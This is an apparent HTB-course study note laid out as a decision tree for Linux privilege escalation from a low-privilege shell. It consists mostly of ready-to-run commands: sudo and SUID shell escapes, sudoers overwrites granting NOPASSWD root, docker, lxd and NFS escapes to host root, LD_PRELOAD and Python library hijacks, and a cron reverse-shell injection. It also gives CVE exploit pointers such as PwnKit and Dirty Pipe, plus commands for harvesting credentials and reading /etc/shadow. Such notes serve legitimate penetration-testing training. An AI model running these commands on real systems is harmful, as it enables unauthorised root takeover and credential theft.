

# Linux Privilege Escalation, Decision Tree

Part of [[DECISION TREE]]. Symptom-to-technique lookup for Linux privesc. Full walkthroughs: [[18. Linux Privilege Escalation|Linux Privilege Escalation]]. Commands: [[Linux Privilege Escalation]].

---

## Start: you have a low-priv shell. What next?



---

## Fast-win checklist order (run top to bottom)

| Priority | What to check | Command | Signs of vulnerability |
|---|---|---|---|
| 1 | Environment variables | `env` | Password, API key, SCRIPT_CREDENTIALS in output |
| 2 | Dotfiles | `cat ~/.bashrc ~/.bash_history ~/.zshrc` | `export PASSWORD=`, credentials as command args |
| 3 | Sudo permissions | `sudo -l` | Any allowed binary that has a GTFOBins entry |
| 4 | SUID binaries | `find / -perm -u=s -type f 2>/dev/null` | Non-standard binary (find, vim, perl, python, gdb, screen...) |
| 5 | Capabilities | `getcap -r / 2>/dev/null` | `cap_setuid+ep` on any scripting language or debugger |
| 6 | /etc/passwd writable | `ls -lah /etc/passwd` | `-rw-rw-rw-` or `-rwxrwxrwx` |
| 7 | Cron jobs | `grep "CRON" /var/log/syslog` or `cat /var/log/cron.log` | `(root) CMD (/path/script.sh)` → check if script is writable |
| 8 | Service footprints | `watch -n 1 "ps -aux \| grep pass"` + `sudo tcpdump -i lo -A \| grep pass` | sshpass in process args, cleartext creds in network traffic |
| 9 | Kernel/SUID version | `uname -r`, `pkexec --version`, `snap --version` | Old kernel or unpatched SUID binary with known CVE |
| 10 | Automated sweep | `./linpeas.sh` or `./unix-privesc-check standard` | Everything above, plus PATH abuse, NOPASSWD entries, etc. |

---

## If sudo -l shows a binary

**Check it on GTFOBins first.** Always look up the *actual* binary, not assume it matches module examples.

| Binary | GTFOBins sudo command |
|---|---|
| apt-get | `sudo apt-get changelog apt` then `!/bin/sh` in less |
| gcc | `sudo gcc -wrapper /bin/sh,-s .` |
| vim | `sudo vim -c '!sh'` |
| find | `sudo find / -exec /bin/sh \; -quit` |
| less | `sudo less /etc/hosts` then `!/bin/sh` |
| man | `sudo man man` then `!/bin/sh` |
| python3 | `sudo python3 -c 'import os; os.system("/bin/sh")'` |
| perl | `sudo perl -e 'exec "/bin/sh";'` |
| bash | `sudo bash` |
| nmap | `sudo nmap --interactive` then `!sh` |
| git | `sudo git help config` then `!/bin/sh` |
| awk | `sudo awk 'BEGIN {system("/bin/sh")}'` |
| tee | `echo "user ALL=(ALL) NOPASSWD:ALL" \| sudo tee /etc/sudoers` |

> AppArmor may block the shell escape even with valid sudo rights. If you get a "Permission denied" on the technique but not on the sudo itself, check `cat /var/log/syslog | grep apparmor` and pivot to a different allowed binary.

---

## If SUID binary is non-standard

| Binary | GTFOBins SUID command |
|---|---|
| find | `find . -exec /bin/sh -p \; -quit` |
| bash | `bash -p` |
| python3 | `python3 -c 'import os; os.setuid(0); os.system("/bin/bash")'` |
| perl | `perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'` |
| vim | `vim -c ':py import os; os.setuid(0); os.execl("/bin/sh","sh","-c","reset; exec sh")' /dev/null` |
| gawk | `gawk 'BEGIN {system("/bin/bash -p")}'` |
| screen | vulnerable versions → searchsploit screen (CVE-2017-5618) |
| pkexec | version 0.105 → PwnKit (CVE-2021-4034) |
| snap-confine | snapd < 2.37.1 → dirty_sock (CVE-2019-7304) |

**Binary is `dosbox` (not in GTFOBins)?**
→ DOS emulator with SUID root = root file-write primitive
→ `dosbox -c 'mount c /etc' -c 'echo $Username ALL=(ALL) NOPASSWD: ALL > c:\sudoers' -c 'exit'`
→ Then `sudo -n bash`
→ Cleanup: restore `/etc/sudoers` from the package-manager cache
→ See [[Linux Privilege Escalation#DOSBox SUID → Sudoers Write (non-GTFOBins pattern)|Command Appendix]], [[PrivEsc Linux - SUID]]

---

## Cron job: is the script exploitable?

```
grep "CRON" /var/log/syslog   (or cat /var/log/cron.log)
         ↓
(root) CMD (/path/to/script.sh)
         ↓
ls -lah /path/to/script.sh
         ↓
-rwxrwxrw- or -rwxrwxrwx?
YES → inject reverse shell with echo >>
NO  → is there a writable directory in the script's PATH? → PATH hijack
NO  → check if the script calls another writable script/binary
```

---

## Kernel / binary CVE quick reference

| Version / Binary | CVE | Technique |
|---|---|---|
| Linux kernel 4.4.0-116 (Ubuntu 16.04.4) | CVE-2017-16995 | eBPF map vuln → compile on target (45010.c via searchsploit) |
| pkexec < 0.120 | CVE-2021-4034 | PwnKit → compile on target (github.com/berdav/CVE-2021-4034) |
| snapd < 2.37.1 | CVE-2019-7304 | dirty_sock → 46362.py via searchsploit |
| ntfs-3g 2015.3.14 (Ubuntu) | CVE-2017-0358 | MODPROBE_OPTIONS abuse → complex, kernel module required |

> Always compile on the target when possible to avoid glibc version mismatch errors.

---

## Group membership: what does `id` reveal?

| Group | What you can do |
|-------|----------------|
| `adm` | Read `/var/log/` — grep for credentials, flags, auth events |
| `lxd` or `lxc` | Container escape: privileged container + host mount = full host root access |
| `docker` | `docker run -v /:/mnt --rm -it ubuntu chroot /mnt bash` = instant root |
| `disk` | `debugfs /dev/sdX` = raw filesystem read, including `/etc/shadow` and `/root/` |
| `shadow` | `cat /etc/shadow` — crack offline with hashcat |

---

## Found a restricted shell — how do I escape?

```
Connected via SSH and shell is rbash/lshell?
         ↓
Try: ssh user@host -t "bash --noprofile"
(skips the profile that sets the restriction)
         ↓
Already inside? Try vi escape:
  :set shell=/bin/bash → :shell
         ↓
Python available?
  python3 -c 'import pty; pty.spawn("/bin/bash")'
         ↓
awk available?
  awk 'BEGIN {system("/bin/bash")}'
```

See [[18. Linux Privilege Escalation|LPE.5]], [[18. Linux Privilege Escalation#Restricted Shell Escape (HTB Supplementary)|Command Appendix]].

---

## Sudo shows env_keep+=LD_PRELOAD

This is a critical misconfiguration. LD_PRELOAD lets you inject a shared library that runs before ANY program:

```
sudo -l shows env_keep+=LD_PRELOAD
         ↓
Write /tmp/privesc.c with _init() calling setuid(0) + system("/bin/bash")
         ↓
gcc -fPIC -shared -o /tmp/privesc.so /tmp/privesc.c -nostartfiles
         ↓
sudo LD_PRELOAD=/tmp/privesc.so <any-allowed-binary>
→ Root bash before the binary even loads
```

See [[18. Linux Privilege Escalation|LPE.17]], [[18. Linux Privilege Escalation#LD_PRELOAD Shared Library Injection (HTB Supplementary)|Command Appendix]].

---

## Sudo -u#-1 (CVE-2019-14287)

```
sudo -l shows: (ALL, !root) NOPASSWD: /usr/bin/some_binary
         ↓
Check sudo version: sudo --version | grep Sudo
         ↓
< 1.8.28? CVE-2019-14287 applies
         ↓
sudo -u#-1 /usr/bin/some_binary
→ UID -1 is mishandled → maps to UID 0 = root
```

See [[18. Linux Privilege Escalation|LPE.20]], [[18. Linux Privilege Escalation#Sudo -u#-1 Bypass. CVE-2019-14287 (HTB Supplementary)|Command Appendix]].

---

## PATH abuse (writable directory before /bin in $PATH)

```
echo $PATH shows /tmp before /usr/bin?
         ↓
Read any root-owned script to find which binaries it calls
         ↓
Create /tmp/<binary-name> with your payload (chmod +x)
         ↓
Wait for root to run the script (or trigger it)
→ Root runs your fake binary
```

See [[18. Linux Privilege Escalation|LPE.4]], [[18. Linux Privilege Escalation#Path Abuse (HTB Supplementary)|Command Appendix]].

---

## id shows lxd group

```
id | grep lxd → member confirmed
         ↓
Build Alpine image on attack box (lxd-alpine-builder)
         ↓
lxc image import + lxc init -c security.privileged=true
         ↓
lxc config device add source=/ path=/mnt/root
         ↓
lxc start + lxc exec /bin/sh
→ /mnt/root = host root filesystem
→ Read /mnt/root/root/ directly
```

See [[18. Linux Privilege Escalation|LPE.12]], [[18. Linux Privilege Escalation#LXD Container Escape (HTB Supplementary)|Command Appendix]].

---

## id shows docker group

```
id | grep docker → member confirmed
         ↓
docker images (check for ubuntu/alpine)
         ↓
docker run -v /:/mnt --rm -it ubuntu chroot /mnt bash
→ Instant root with full host filesystem
→ Read /root/flag.txt or plant SUID bash
```

See [[18. Linux Privilege Escalation|LPE.13]], [[18. Linux Privilege Escalation#Docker Group Escape (HTB Supplementary)|Command Appendix]].

---

## showmount reveals NFS share with no_root_squash

```
showmount -e STMIP
→ /share *(rw,no_root_squash)
         ↓
On attack box (as local root):
sudo mount -t nfs STMIP:/share /mnt/nfs
sudo cp /bin/bash /mnt/nfs/rootbash && sudo chmod +s /mnt/nfs/rootbash
         ↓
On target:
/share/rootbash -p → root
```

See [[18. Linux Privilege Escalation|LPE.15]], [[18. Linux Privilege Escalation#NFS No Root Squash (HTB Supplementary)|Command Appendix]].

---

## SUID binary loads .so from writable RUNPATH

```
readelf -d /opt/binary | grep -i runpath
→ /development/lib/ (writable?)
         ↓
ldd /opt/binary → find expected library name
         ↓
Write malicious .so with constructor attribute to /development/lib/
         ↓
Run /opt/binary → your .so loads first → root
```

See [[18. Linux Privilege Escalation|LPE.18]], [[18. Linux Privilege Escalation#Shared Object Hijacking (HTB Supplementary)|Command Appendix]].

---

## sudo allows a Python script and a module is writable

```
sudo -l: (root) NOPASSWD: /usr/bin/python3 /opt/script.py
         ↓
python3 -c "import somemodule; print(somemodule.__file__)"
→ /path/to/module/__init__.py
         ↓
ls -la that file — writable?
         ↓
Append: import os; os.system("chmod +s /bin/bash")
         ↓
sudo python3 /opt/script.py → /bin/bash -p → root
```

See [[18. Linux Privilege Escalation|LPE.19]], [[18. Linux Privilege Escalation#Python Library Hijacking (HTB Supplementary)|Command Appendix]].

---

## Kernel CVE quick reference (updated)

| Version / Binary | CVE | Technique |
|---|---|---|
| Linux kernel 4.4.0-116 (Ubuntu 16.04.4) | CVE-2017-16995 | eBPF map vuln → 45010.c via searchsploit |
| Linux kernel 5.8–5.17 | CVE-2022-0847 (Dirty Pipe) | Overwrite read-only files via pipe splice → root |
| Ubuntu 14.04–20.04 overlayfs | CVE-2021-3493 | Incorrect permission check → root |
| pkexec < 0.120 | CVE-2021-4034 (PwnKit) | compile on target (github.com/berdav/CVE-2021-4034) |
| snapd < 2.37.1 | CVE-2019-7304 (dirty_sock) | 46362.py via searchsploit |
| GNU Screen 4.5.0 | CVE-2017-5618 | 41154.sh via searchsploit → SUID root shell |
| sudo < 1.8.28 + (ALL, !root) | CVE-2019-14287 | `sudo -u#-1 <binary>` |

---

## Fast-win checklist extension (HTB additions)

Add these checks after step 3 (sudo -l) in the existing checklist:

| Priority | What to check | Command | Signs of vulnerability |
|---|---|---|---|
| 3a | sudo env_keep | `sudo -l \| grep LD_PRELOAD` | `env_keep+=LD_PRELOAD` = library injection |
| 3b | sudo -u#-1 bypass | `sudo --version` | < 1.8.28 + `!root` in allowed users |
| 3c | Group membership | `id` | adm/docker/lxd/disk/shadow |
| 4a | Capabilities (new) | `find / -type f -exec getcap {} \; 2>/dev/null` | `cap_dac_override` on vim/nano → write /etc/passwd |
| 11 | PATH contents | `echo $PATH` | Writable dir before /bin |
| 12 | NFS exports | `cat /etc/exports` | `no_root_squash` |
| 13 | RUNPATH writable | `readelf -d SUID_binary \| grep runpath` | Writable RUNPATH dir |

#### Tags: #DecisionTree #LinuxPrivesc #SUID #sudo #Capabilities #CronJob #KernelExploit #GTFOBins #Module18 #LXD #Docker #NFS #LDPreload #SharedObject #PythonHijack #DirtyPipe #RestrictedShell #PathAbuse #HTBSupplementary
